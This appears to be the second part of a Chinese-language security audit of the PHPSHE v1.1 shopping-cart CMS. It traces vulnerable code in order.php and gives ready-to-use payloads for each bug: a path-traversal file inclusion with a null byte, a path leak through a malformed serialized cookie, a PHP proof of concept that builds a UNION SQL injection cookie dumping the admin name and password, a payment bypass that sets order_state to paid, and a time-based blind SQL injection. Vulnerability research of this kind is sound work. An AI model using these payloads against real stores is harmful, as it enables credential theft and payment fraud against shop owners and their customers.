 ## **PHPSHE V1.1 （二）**

### **order.php**
<p>

接下來，我們來看看`order`購物車及訂單模塊。
<p>
大致看一下、購物車列表主要以序列化形式緩存在cookie裏面，第一反應就想到能不能有序列化注入？`選擇支付方式`似乎也存在包含漏洞。
<p>
先看看選擇`支付方式`的包含漏洞的

```php
//Line:106

case 'pay':
    ...
    if (isset($_p_pesubmit)) {
        ...
        include("{$pe['path_root']}include/plugin/payway/{$_p_info['order_payway']}/order_pay.php");
```

此處`$_p_info['order_payway']`可控且未經過濾。

### **【Bug 0x04: 任意文件包含漏洞 有限制條件】**
POST:
<p>
<pre>/index.php?mod=order&act=pay</pre>
DATA:
<p>
<pre>info[order_payway]=../../../robots.txt%00?&pesubmit=1</pre>
<p>
再看看，`訂單增加`操作無需登入就可以對資料庫操作。

```php
//Line:65

case 'add':
    $cart_info = cart_info(unserialize($_c_cart_list));
```

跟進`cart_info()`函數

```php
//Line:135

function cart_info($_c_cart_list=array()) {
    ...
    else {
    if (is_array($_c_cart_list)) {
        foreach ($_c_cart_list as $k => $v) {
            $product_rows = $db->pe_select('product', array('product_id'=>$k), '`product_name`, `product_logo`, `product_smoney`, `product_num` as `product_maxnum`');
            $info_list[] = array_merge($v, $product_rows);
```

這個地方、除了可能有sql注入，同時還有一個亮點

`$info_list[] = array_merge($v, $product_rows);`

函數`array_merge()`錯誤的參數也會導致出現謝謝洩漏的。
<p>
我們任意構造一個錯誤的序列化訂單，例如`a:1:{s:0:"";a:1:{s:11:"product_num";N;}}`
<p>
這是通過空購物車的時候，進行**購物車商品更改數量**操作自動生成的一個錯誤的商品訊息。
<p>
`/index.php?mod=order&act=cartnum`
<p>
然後再次進行任意一個調用到`cart_info()`函數的操作就會發生錯誤並返回錯誤訊息。

### **【Bug 0x05: 訊息洩露 爆路徑】**

URL:
```
/index.php?mod=order&act=cartnum
/index.php?mod=order&act=add
/index.php?mod=order&act=cartdel
```
**Cookie**:`cart_list=a:1:{s:0:"";a:1:{s:11:"product_num";N;}}`

```Warning: array_merge(): Argument #2 is not an array in E:\SourceCodes\phpshe1.1\module\index\order.php on line 148```

現在我們繼續審計是否存在注入。

```php
//Line:142

if (is_array($_c_cart_list)) {
    foreach ($_c_cart_list as $k => $v) {
        $product_rows = $db->pe_select('product', array('product_id'=>$k), '`product_name`, `product_logo`, `product_smoney`, `product_num` as `product_maxnum`');
```

`$k`存在注入。<br>
跟進`pe_select()`函數


```php
//Line:135

public function pe_select($table, $where = '', $field = '*')
    {
        //處理條件語句
        $sqlwhere = $this->_dowhere($where);
        return $this->sql_select("select {$field} from `".dbpre."{$table}` {$sqlwhere} limit 1");
```

再跟進`_dowhere()`函數


```php
//Line:181

//處理條件語句
protected function _dowhere($where)
{
    if (is_array($where)) 
    {
        foreach ($where as $k => $v) 
        {
            if (is_array($v)) 
            {
                $where_arr[] = "`{$k}` in('".implode("','", $v)."')";            
            }
            else 
            {
                in_array($k, array('order by', 'group by')) ? ($sqlby = " {$k} {$v}") : ($where_arr[] = "`{$k}` = '{$v}'");
            }
        }
        $sqlwhere = is_array($where_arr) ? 'where '.implode($where_arr, ' and ').$sqlby : $sqlby;
    }
    else 
    {
        $where && $sqlwhere = (stripos(trim($where), 'order by') === 0 or stripos(trim($where), 'group by') === 0) ? "{$where}" : "where 1 {$where}";
    }
    return $sqlwhere;
}
```

來自`$_c_cart_list`的`$k`未經過濾被帶入sql語句中，導致where條件注入。
<p>
這時，我們可以構造一個特殊的序列化購物車訂單，利用union任意查詢資料庫內容。
<p>
PHP_生成POC

```php
<?php
$b["'union select admin_name,2,3,4 from pe_admin -- -"][0] = '1\'';
$b["'union select admin_pw,2,3,4 from pe_admin -- -"][1] = '1\'';
$s = serialize($b);
print_r($s);
?>
```


### **【Bug 0x06: SQL注入 任意查詢】**

URL:`/index.php?mod=order&act=add`

Cookie:
<br>
```a:2:{s:49:"'union select admin_name,2,3,4 from pe_admin -- -";a:1:{i:0;s:2:"v'";}s:47:"'union select admin_pw,2,3,4 from pe_admin -- -";a:1:{i:1;s:2:"v'";}}```

兩個商品名稱處分別顯示管理員用戶名和密碼。
回到**訂單增加**操作。

```php
//Line:73-80

$_p_info['order_productmoney'] = $money['order_productmoney'];
$_p_info['order_wlmoney'] = $money['order_wlmoney'];
$_p_info['order_money'] = $money['order_money'];
$_p_info['order_atime'] = time();
$_p_info['user_id'] = $_s_user_id;
$_p_info['user_name'] = $_s_user_name;
$_p_info['user_address'] = "{$_p_province}{$_p_city}{$_p_info['user_address']}";
if ($order_id = $db->pe_insert('order', $_p_info)) {
```

我們用`print_r()`或者`var_dump()`輸出`$_p_info`

```php
Array
(
    [user_address] => 河南省鄭州市測試
    [user_tname] => 姓名
    [user_phone] => 13012345678
    [user_tel] =>
    [order_text] =>
    [order_productmoney] => 133.0
    [order_wlmoney] => 0.0
    [order_money] => 133.0
    [order_atime] => 1461044204
    [user_id] =>
    [user_name] =>
)
```

這時可以發現`user_tname`和`user_phone`和`user_tel`和`order_text`都沒有經過處理，就代入了sql查詢。
<p>
這裡、我們可以利用update注入了。當然，我們沒有登入、無法查看到訂單詳情。
<p>
同時，我們也可以構造其他的參數例如`order_state`,直接修改訂單狀態。

### **【Bug 0x07: 支付繞過】**

URL:
```
/index.php?mod=order&act=add
```

DATA:
```
....
info[order_state]=paid
```

雖然會返回訂單號錯誤，但確實是成功了。
<p>
在登入情況下，該頁面也存在不少注入漏洞。

```php
//Line:34

case 'cartnum':
    $money['order_productmoney'] = $money['order_wlmoney'] = $money['order_money'] = 0;
    if (pe_login('user')) {
        $result = $db->pe_update('cart', array('user_id'=>$_s_user_id, 'product_id'=>$_g_product_id), array('product_num'=>$_g_product_num));
    }
```

`$_g_product_id`和`$_g_product_num`未經顧慮就帶入了sql更新。
<p>

### **【Bug 0x08: SQL注入 Update注入 AND/OR time-based blind 登入限制】**

URL:

<pre>/index.php?mod=order&act=cartnum&product_id=1&product_num=12' AND (SELECT * FROM (SELECT(SLEEP(5)))YfCN) AND 'RShN'='RShN</pre>